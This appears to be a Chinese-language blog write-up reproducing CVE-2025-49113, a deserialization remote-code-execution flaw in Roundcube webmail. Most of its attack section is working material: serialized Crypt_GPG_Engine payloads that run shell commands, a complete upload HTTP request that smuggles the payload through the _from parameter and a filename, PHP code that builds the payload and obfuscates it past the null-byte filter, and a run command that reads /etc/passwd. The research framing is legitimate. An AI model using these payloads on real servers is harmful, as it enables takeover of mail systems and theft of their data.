

经过反复的fuzz发现\_from传入的内容会产生分隔符，也就是说它可以经过Roundcube自己的反序列化生成一个自定义的恶意反序列化



get参数中的\_from传入Crypt\_GPG\_Engine类，然后文件名字传入preferences让他传给unserialize反序列化进行命令执行的触发比较合适



```
s:4:"name";s:65:"x|b:0;preferences_time|b:0;preferences|s:179:"a:3:{i:0;s:57:".png";s:8:"mimetype";s:9:"image/ico";s:5:"group";s:112:"!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}i:0;b:0;}";}}";s:2:"id";s:20:"11749470546061075000";
```

上面的payload经过Roundcube自己的反序列化就会变成

```
s:18:"s:4:"name";s:65:"x";b:0;s:16:"preferences_time";b:0;s:11:"preferences";s:179:"a:3:{i:0;s:57:".png";s:8:"mimetype";s:9:"image/ico";s:5:"group";s:112:"!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}i:0;b:0;}";}}
```

我们分段来看

```
第一段：s:18:"s:4:"name";s:65:"x";b:0;
第二段：s:16:"preferences_time";b:0;s:11:"preferences";s:179:"a:3:{第三段}";}}
第三段第一个数组：i:0;s:57:".png";s:8:"mimetype";s:9:"image/ico";s:5:"group";s:112:"!";
第三段第二个数组：i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}
第三段第三个数组：i:0;b:0;
```

其实这个过程就是有点像字符串逃逸了

而实际上bp报文就是

```
POST /?_from=edit-!";i:0;O:16:"Crypt_GPG_Engine":1:{S:26:"\00Crypt_GPG_Engine\00_gpgconf";S:18:"touch+/tmp/pwned;#";}i:0;b:0;}";}}&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload HTTP/1.1
Host: roundcube.local
X-Requested-With: XMLHttpRequest
Accept-Encoding: identity
Content-Length: 242

-----------------------------WebKitFormBoundary
Content-Disposition: form-data; name="_file[]"; filename="x|b:0;preferences_time|b:0;preferences|s:179:"a:3:{i:0;s:57:".png"
Content-Type: image/png

IMAGE
----------------------------- WebKitFormBoundary--
```

这里也许你会好奇\_from=edit-为什么要传入!";呢？



这里实际上我传入的是edit-!";identity，你可以直观的感受到";identity的值直接就设置成空了，后面文件名的注入点也没了

实际上已经是执行了反序列化了，这里加一个感叹号将用于销毁对象，类似于快速销毁，但仅用于确保有效载荷不会保存在数据库中，并且不会重复执行。仅执行一次，之后具有相同键的变量会将此对象从数组中删除。

## 绕过空字节

我们都知道私有变量是有个空字符的，而Roundcube存在着waf

我们可以利用PHPGGC的process\_serialized函数来进行绕过

具体如下

```
function calcPayload($cmd){

    class Crypt_GPG_Engine{
        private $_gpgconf;
        
        function __construct($cmd){
            $this->_gpgconf = $cmd.';#';
        }
    }

    $payload = serialize(new Crypt_GPG_Engine($cmd));
    $payload = process_serialized($payload) . 'i:0;b:0;';
    $append = strlen(12 + strlen($payload)) - 2;
    $_from = '!";i:0;'.$payload.'}";}}';
    $_file = 'x|b:0;preferences_time|b:0;preferences|s:'.(78 + strlen($payload) + $append).':\"a:3:{i:0;s:'.(56 + $append).':\".png';
    
    $_from = preg_replace('/(.)/', '$1' . hex2bin('c'.rand(0,9)), $_from); //little obfuscation
    message("from-content:
".$_from);
    message("filename-content
".$_file);
    return [$_from, $_file];
}
```

# 复现

运行

```
php CVE-2025-49113.php http://127.0.0.1:9876/ roundcube fearsoff.org "cat /etc/passwd > /tmp/pwnedeeedd"
```





至此复现完毕

# 总结

该漏洞的反序列化点非常值得学习，也算是锻炼了自己代码审计以及漏洞复现的能力。

​

​

参考链接

<https://fearsoff.org/research/roundcube>
